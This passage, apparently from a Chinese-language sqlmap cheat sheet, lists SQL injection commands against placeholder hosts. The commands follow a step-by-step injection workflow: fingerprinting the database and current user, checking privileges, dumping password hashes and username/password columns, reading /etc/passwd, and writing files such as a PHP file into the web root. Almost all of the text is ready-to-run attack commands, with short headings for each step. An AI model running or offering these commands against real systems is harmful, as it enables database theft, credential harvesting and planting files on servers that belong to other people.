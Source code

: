 17.

./sqlmap.py -l burp.log –scope=”(www)?\.target\.(com|net|org)”

18.

./sqlmap.py -u “http://www.evil0x.com/ sqlmap/mysql/get_int.php?id=1″ –tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

19.

./sqlmap.py -u “http://www.evil0x.com/ sqlmap/mssql/get_int.php?id=1″ –sql-query “SELECT ‘foo’” -v 1

20.

./sqlmap.py -u “http://www.evil0x.com/ mysql/get_int_4.php?id=1″ –common-tables -D testdb –banner

简单的注入流程

1.读取数据库版本，当前用户，当前数据库

sqlmap -u http://www.evil0x.com/ test.php?p=2 -f -b –current-user –current-db -v 1

2.判断当前数据库用户权限

sqlmap -u http://www.evil0x.com/ test.php?p=2 –privileges -U 用户名 -v 1

sqlmap -u http://www.evil0x.com/ test.php?p=2 –is-dba -U 用户名 -v 1

3.读取所有数据库用户或指定数据库用户的密码

sqlmap -u http://www.evil0x.com/ test.php?p=2 –users –passwords -v 2

sqlmap -u http://www.evil0x.com/ test.php?p=2 –passwords -U root -v 2

4.获取所有数据库

sqlmap -u http://www.evil0x.com/ test.php?p=2 –dbs -v 2

5.获取指定数据库中的所有表

sqlmap -u http://www.evil0x.com/ test.php?p=2 –tables -D mysql -v 2

6.获取指定数据库名中指定表的字段

sqlmap -u http://www.evil0x.com/ test.php?p=2 –columns -D mysql -T users -v 2

7.获取指定数据库名中指定表中指定字段的数据

sqlmap -u http://www.evil0x.com/ test.php?p=2 –dump -D mysql -T users -C “username,password” -s “sqlnmapdb.log” -v 2

8.file-read读取web文件

sqlmap -u http://www.evil0x.com/ test.php?p=2 –file-read “/etc/passwd” -v 2

9.file-write写入文件到web

sqlmap -u http://www.evil0x.com/ test.php?p=2 –file-write /localhost/mm.php –file-dest

./sqlmap.py -u "http://www.nxadmin.com/sql-injection.php?id=1" –file-write /test/test.txt –file-dest /var/www/html/1.txt

将本地的test.txt写入到站点服务器的html目录下。
